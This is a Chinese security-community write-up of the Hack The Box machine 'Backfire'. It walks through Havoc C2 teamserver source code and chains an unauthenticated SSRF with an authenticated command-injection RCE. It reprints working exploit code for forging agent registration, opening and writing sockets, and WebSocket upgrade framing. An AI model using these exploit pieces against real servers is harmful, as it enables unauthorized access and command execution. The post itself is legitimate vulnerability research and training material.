# HTB赛季靶场引发对Havoc SSRF+RCE组合漏洞的思考和研究-先知社区

> **来源**: https://xz.aliyun.com/news/16672  
> **文章ID**: 16672

---

## 前言

上周日S1Null师傅约我一起打HTB，说是当天新赛季又出机器了，难度为中级的Linux靶场——Backfire，该靶场提到了一个havoc C2两个目前尚未修复的漏洞，即未授权SSRF和授权RCE，这两个漏洞已经有诸多大佬写文研究过（参考大佬们的文章会在文章最后贴出），但该环境将两个漏洞进行组合，还是产生了一些让我感觉比较奇妙的化学反应，当天打完以后感觉意犹未尽，感觉比较有意思，遂想要仔细分析一下。其实严格上来说，这个ssrf+rce的组合并不完全是个能够通杀的解决方案，他的执行成功是需要一些前提，本文最后会讲到这一点。

## 未授权SSRF

故事的开始要从未授权SSRF开始，在havoc开启监听时使用的是一个ListenerStart的函数，经过操作员的配置后，会调用Start()函数开启监听（teamserver/cmd/server/listener.go）



当我们跟进Start()函数时会发现，Start函数中使用的Gin框架设置路由，将所有POST的请求映射到h.request中（teamserver/pkg/handlers/http.go）



跟进request方法，这是havoc teamserver的http请求处理的函数，先读取请求体，将request body给读进Body变量，然后验证URI和UA，判断传入的内容是否符合配置的需求，这个类似于CS的profile侧写文件中的配置，想要获取白名单URI和UA可以尝试通过分析马或者收集公开的profile进行爆破，这里目前先只考虑的默认情况，因为havoc的server端支持我们使用havoc server -d来启动。request函数中还检验了常规http请求，以及获取ExternalIP等




在通过URI和ua的过滤后，匹配规则的包会将Body变量传递给parseAgentRequest这个参数（teamserver/pkg/handlers/http.go）



在parseAgentRequest中，我们可以看到这个函数接受了三个参数，agent.teamserver，body以及外部IP。函数中先对header进行解析，如果解析失败就返回错误，然后检查数据长度是否小于4，最后检查MagicValue也就是魔法值(DEMON\_MAGIC\_VALUE这个值为0xDEADBEEF，可以在teamserver/pkg/agent/commands.go中找到它)，这个值相当于是一个标志，判断是否是属于havoc的demon agent，如果不是则尝试做第三方代理处理（teamserver/pkg/handlers/handlers.go）



在parseAgentRequest中，我们可以看到它将header交给ParseHeader这个函数进行处理，跟进去我们可以看到它将body使用ParseInt32()函数进行处理，然后依次读取4个字节，其中分别是Size，Magic Value，Agent ID，AgentID后面的值则全部赋予Data，所以通过这点我们可以清楚这里的POST Body的数据包结构应该为[Size 4字节][Magic Value 4字节][Agent ID 4字节][Data]（teamserverpkgagentagent.go）


回到前面，在parseAgentRequest中，如果Header.MagicValue == agent.DEMON\_MAGIC\_VALUE则会将参数赋给handleDemonAgent这个函数，这个函数中又两个分支，条件分别是当AgentID存在和AgentID不存在时，我们分析当AgentID不存在时，这里将会继续处理Data，这里将Data的前4个字节，也就是POST Body的12-16个字节（4个字节）赋予给Command变量，然后将其与DEMON\_INIT进行比较，这个值可以在teamserverpkgagentcommands.go中看到，值为99。如果相等，我们就可以看到通过ParseDemonRegisterRequest这个函数来创建Agent



最后跟进ParseDemonRegisterRequest函数，在这段代码中我们可以看到读取了一个32个字节的AESKey和16个字节的AESIv，Havoc会将AESKey和AESIV后面的所有内容进行AES加密，在这个函数中解密后依次去读取相对应的一些配置参数用以注册信息，并创建新的代理添加在teamserver中（teamserverpkgagentagent.go）



至此，我们对整个注册Agent所需的数据结构已经有比较完善的了解了，我们在havoc的源码中（teamserverpkgagentagent.go）可以看到如下注释



所以接下来我们看到GitHub上给出的poc中的注册Agent模块就不会太难理解，这里先贴个链接<https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py。POC中先定义了一个AES的加密方法，用于后续对内容进行AES加密。>

```
def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext
```

int\_to\_bytes方法用以对值进行转换，将值转换为4个字节，并使用大端序的字节序

```
def int_to_bytes(value, length=4, byteorder="big"):
    return value.to_bytes(length, byteorder)
```

register\_agent方法中，我们可以看到传入了一些所需的基础信息

```
def register_agent(hostname, username, domain_name, internal_ip, process_name, process_id):
    # DEMON_INITIALIZE / 99
    command = b"\x00\x00\x00\x63"
    request_id = b"\x00\x00\x00\x01"
    demon_id = agent_id

    hostname_length = int_to_bytes(len(hostname))
    username_length = int_to_bytes(len(username))
    domain_name_length = int_to_bytes(len(domain_name))
    internal_ip_length = int_to_bytes(len(internal_ip))
    process_name_length = int_to_bytes(len(process_name) - 6)

    data =  b"\xab" * 100

    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")
```

我们从传参的第一部分开始看，teamserver监听url不用过多赘述，data由agent\_header + header\_data组成，其中agent\_header就是size（12+headerdata的长度的和转化为4字节并使用大端序的字节序）+magicvalue+agentid的，然后再将后面的内容按照前面分析出来的数据结构依次排上，并将相关数据写入headerdata中进行拼接，因为代码中（Havoc-main eamserverpkgagentagent.go）提到检查是否AESKey和AESIv是否为0，如果为0则跳过解密直接解析data数据，所以poc中没有对header\_data进行加密直接拼接也是可以的

```
magic = b"\xde\xad\xbe\xef"
teamserver_listener_url = args.target
headers = {
        "User-Agent": args.user_agent
}
agent_id = int_to_bytes(random.randint(100000, 1000000))
AES_Key = b"\x00" * 32
AES_IV = b"\x00" * 16
hostname = bytes(args.hostname, encoding="utf-8")
username = bytes(args.username, encoding="utf-8")
domain_name = bytes(args.domain_name, encoding="utf-8")
internal_ip = bytes(args.internal_ip, encoding="utf-8")
process_name = args.process_name.encode("utf-16le")
process_id = int_to_bytes(random.randint(1000, 5000))
```

注册好代理后就是我们在handleDemonAgent这个函数中就可以走进AgentExist这个分支了，也就是造成SSRF的地方，我们可以看到这里使用uint32(Header.Data.ParseInt32())来解析字节并将值赋予Command，在下面走到判断Command如果不等于COMMAND\_GET\_JOB(值等于1，位于teamserverpkgagentcommands.go)时，会调用TaskDispatch这个函数（原作者似乎这里有口误？看到国内有搬运的文章也没注意到这里..）



我们跟进TaskDispatch这个函数，这个函数主要是为了完成操作人员从客户端发送的任务，客户端的请求我们不可控但是我们可以发现这里调用了一个IsKnownRequestID这个函数，如果这个函数返回一个false，那我们就会被teamserver给拒绝，所以我们跟进这个函数看



在这个函数里面我们发现其中的判断，只有当以下4种情况时会返回true，其余会返回false，可以看到下面会遍历Agent中的所有任务，并检查是否有与之匹配的RequestID，如果有则认为合法，返回ture，反之则返回false，但是RequestID据描述是一个无符号的32位整数，所以在我们无法控制客户端的情况下几乎对此不可知，不过另外的三条判断却都只校验了CommandID，不管RequestID，而这个值我们可控，所以就造成了我们后续的操作。



回到前面的TaskDispatch函数，可以看到一系列的switch判断，我们可以找到我们所需的判断之一，即COMMAND\_SOCKET（值为2540，teamserverpkgagentcommands.go），在这个分支中可以看到SubCommand获取了一个值，据描述，这是havoc的rportfwd/socks代理功能的一部分，且里面的值我们可控



在SOCKET\_COMMAND\_OPEN这个分支中我们可以清楚看到这里获取了一些创建Socket套接字的相关变量以及使用这些变量的方法，即PortFwdNew



当我们跟进PortFwdNew这个函数，发现它是获取参数后创建了一个端口转发结构，并将新的端口转发对象添加到Agent的端口转发列表中（Havoc-main eamserverpkgagentagent.go）



而真正打开socket的是在SOCKET\_COMMAND\_READ分支，我们可以看到这里先从Parser中读取值赋予SocktID这个变量，在经过一些杂七杂八的判断之后将SocktID传入PortFwdOpen进行调用

（Havoc-main eamserverpkgagentdemons.go）



而PortFwdOpen这个函数可以看到，主要是进行创建操作，将PortFwd中创建的结构交给net.Dial进行调用，从而创建一个TCP的Socket（Havoc-main eamserverpkgagentagent.go）



所以我们来看到poc中开启socket的源码

```
def open_socket(socket_id, target_address, target_port):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x02"

    # SOCKET_COMMAND_OPEN / 16
    subcommand = b"\x00\x00\x00\x10"
    sub_request_id = b"\x00\x00\x00\x03"

    local_addr = b"\x22\x22\x22\x22"
    local_port = b"\x33\x33\x33\x33"


    forward_addr = b""
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")
```

command值让其等于COMMAND\_SOCKET=2540，转换成字节码也就是，subcommand的值让其等于SOCKET\_COMMAND\_OPEN=16（teamserverpkgagentcommands.go），然后将转发IP经过拆分，反转序列再转换为单字节，最后再加密数据并拼接发送，数据的结构如下

```
[Havoc Header]
- size_bytes (4字节)
- magic (4字节)
- agent_id (4字节)
[Command Header]
- command (COMMAND_SOCKET)
- request_id
[Encrypted Package]
- package_size
- subcommand (SOCKET_COMMAND_OPEN)
- socket_id
- local_addr
- local_port
- forward_addr
- forward_port
```

打开Socket之后就该尝试写入，我们回到TaskDispatch函数中在SOCKET\_COMMAND\_READ分支中（也就是SOCKET\_COMMAND\_OPEN分支的下面），我们可以看到在调用PortFwdOpen之后将SocktID和Data传入PortFwdWrite进行调用



我们跟进PortFwdWrite这个函数，可以看到这里先获取了一个端口转发对象，如果对象存在并建立，则写入数据



接下来我们去看poc中write\_socket模块，前面都和前面类似，SOCKET\_COMMAND\_READ的值是11，在Havoc-main eamserverpkgagentcommands.go路径中可以看到，SOCKET\_TYPE\_CLIENT值是3，设置这个通过Type == SOCKET\_TYPE\_CLIENT的判断，success设置为1，以通过Success == win32.TRUE的判断

```
def write_socket(socket_id, data):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")
```

然后将参数带入，request数据被写入到tcp连接中发送到服务器上

```
socket_id = b"\x11\x11\x11\x11"
request_data = b"GET /vulnerable HTTP/1.1\r
Host: www.example.com\r
Connection: close\r
\r
"
write_socket(socket_id, request_data)
```

所以write\_socket的数据结构应该如下

```
[Havoc Header] (12字节)
    - size_bytes (4字节)
    - magic (4字节)
    - agent_id (4字节)

[Command Header]
    - command (COMMAND_SOCKET)
    - request_id

[Encrypted Package]
    - package_size (4字节)
    - subcommand (SOCKET_COMMAND_WRITE)
    - socket_id (4字节)
    - socket_type (SOCKET_TYPE_CLIENT)
    - success (win32.TRUE)
    - data_length (4字节)
    - data (变长)
```

其实到这里就可以达到ssrf的功能，不过chebuya大佬还贴心的多写了一个read模块来获取通信结果，在PortFwdWrite的后面可以看到起了一个goroutine，如果报错信息为空，且有响应数据，就将数据传入job结构体中，然后添加到Agent list中，如果要读取，则需要回到AgentExist函数当中去



回到AgentExist参数中，可以看到，如果Command的值等于COMMAND\_GET\_JOB，那就会给asked\_for\_jobs赋予一个true，当asked\_for\_jobs的值为true时，就可以获取到响应结果



## 授权RCE

Havoc一直到现在为止也存在一个授权RCE的漏洞，还是先贴poc

<https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py>

这个RCE漏洞的原理其实也蛮简单，漏洞点出在生成payload的servername处



问题源码在Havoc-main eamserverpkgcommonuilderuilder.go中，将参数传进了compilerOptions.Defines中，然后再CompileCommand获取参数组成命令，并传入CompileCmd函数进行调用，最后再CompileCmd函数中再利用Cmd函数执行







在poc中我们需要注意的是injection的内容，-mbla参数没有实际意义，只是为了让他报错暂停执行前面的命令，false则是让发强制返回错误状态输出错误信息，最终实现回显



payload前面的目的也都是转义而达到逃逸的目的



## SSRF+RCE组合调用链

通过前面对ssrf和rce的分析，我们大概可以构成这么一个思路，先通过ssrf将流量代理到teamserver本地的40056端口，然后再通过TCP Socket访问40056端口实现RCE的功能。那么在融合两个漏洞时，我们会注意到一点，ssrf通过的是http协议，而40056端口授权rce则是wss，也就是websocket服务，这中间就需要存在一个协议升级的环节，将http协议升级到ws协议，要做到这一点，我们需要构造一个这样的请求包，用以升级协议

```
request = (
            f"GET /havoc/ HTTP/1.1\r
"
            f"Host: {self.target_host}:{self.target_port}\r
"
            f"Upgrade: websocket\r
"
            f"Connection: Upgrade\r
"
            f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r
"
            f"Sec-WebSocket-Version: 13\r
"
            f"\r
"
        ).encode()
```

除此之外，我们还需要去实现一个websocket数据帧的创建过程，主要是为了将payload打包符合websocket协议的帧格式，适用于websocket客户端

```
def create_websocket_frame(self, payload):
    payload_bytes = payload.encode("utf-8")
    frame = bytearray()
    frame.append(0x81)
    payload_length = len(payload_bytes)
    if payload_length <= 125:
        frame.append(0x80 | payload_length)
    elif payload_length <= 65535:
        frame.append(0x80 | 126)
        frame.extend(payload_length.to_bytes(2, byteorder="big"))
    else:
        frame.append(0x80 | 127)
        frame.extend(payload_length.to_bytes(8, byteorder="big"))

    masking_key = os.urandom(4)
    frame.extend(masking_key)
    masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
    frame.extend(masked_payload)
    return bytes(frame)
```

最终呈现的效果



## 思考

虽然我和S1Null师傅当天已经解决这个环境，但是我们还是踩了很多坑，于是我这几天闲余时间去研究一下这几个问题（最终结果并不一定是正确答案，都是基于我当前认知得出的结果，如果有误还请指出）

### 回显问题

在我们确定思路搓脚本的时候，当时卡了蛮久，一直没有发现有回显，在当时认知上来看，ssrf执行会有回显，rce执行也会有回显，但是为什么两个漏洞组合之后就没有回显，后来我去仔细看了一下代码，关于读数据读回显有这么个说法（Havoc-main eamserverpkgagentdemons.go），它读数据其实是靠的havoc的自生内部的功能，会将结果返回到job结构体中，然后再被读出来，反之则不会写入，所以有无回显应该是看job是否能接收到数据，问题应该就出在这了job接收不到ws协议的数据，因为在调试过程中一旦协议升级后就接收不到回显结果。





### 协议升级的问题

因为靶场给出的环境其实是打过一个补丁，补丁内容大概是将wss协议降为ws协议（havoc这里默认其实是wss协议），于是就在想是否能够将协议升级到wss协议，以达到一个不打补丁就能利用的效果。不过这里我得到的结果是不行的，我们可以看到我们在做open\_socket操作的时候，其实也是havoc自生内部的调用，我们通过发送可控参数，来控制havoc打开TCP Socket(Havoc-main eamserverpkgagentagent.go)，如下



我们可以看到这里havoc是调用net.Dial打开了一个TCP Socket，而通过查阅资料发现，其实升级到wss协议和ws协议的数据包其实是一样的，是升级到wss还是ws取决于初始协议是http还是https，http升级后是ws，https升级后是wss，但是当前如果我们需要升级到wss的话我们还需要一个SSL/TLS的加密层，但是这个行为我们不可控，所以这里协议升级就只升级得到ws协议。

### 是否通杀的问题

其实当前就我目前的水平而言我认为这套ssrf+rce的组合并不能达到通杀的效果，因为这里的环境能够实现是因为有特殊设置，如果显示中要使用的话条件还是会比较苛刻，首先一个，题目中将40056端口开在本地，所以我们会需要通过ssrf将数据代理到本地进行，如果端口开在外面或者不使用默认端口，可能就不会使用到ssrf或者需要去写脚本探明端口，其次，最终执行命令其实还是靠的是授权的rce，那获取账号密码其实也是个问题，在这个环境中，账号密码我们是因为管理者对服务器的web服务管理不当，所以我们可以获得配置文件中的账号密码，如下图



然后就是协议升级的问题，如果在当前理想的环境中，确实存在一个使用havoc server -d默认启动的teamserver，并将登录端口开在本地，但是由于默认环境下havoc采用wss协议进行通信的，在没有像这个环境中这样打这个补丁的情况下使用ssrf升级协议，就只能升级到ws协议而非wss协议，最终不能达到ssrf+rce的整个调用链，如果端口开放在外面，那其实也就只用使用一个havoc的rce也就可以了，也就是单一漏洞的利用而非调用链了。

## 总结

总的来说这个环境对我来说还是蛮有意思，从C2的角度出发，既提醒了红队人员在渗透测试时需要注意的OPSEC的问题，也给蓝队人员提供了一些比较有趣的思路，也感谢S1null师傅在打靶和学习中提供的帮助和思路。最后贴一个S1null师傅的脚本：<https://github.com/s1null/Havoc-SSRF-RCE/>

## 参考文章

<https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py>

<https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/>

<https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py>
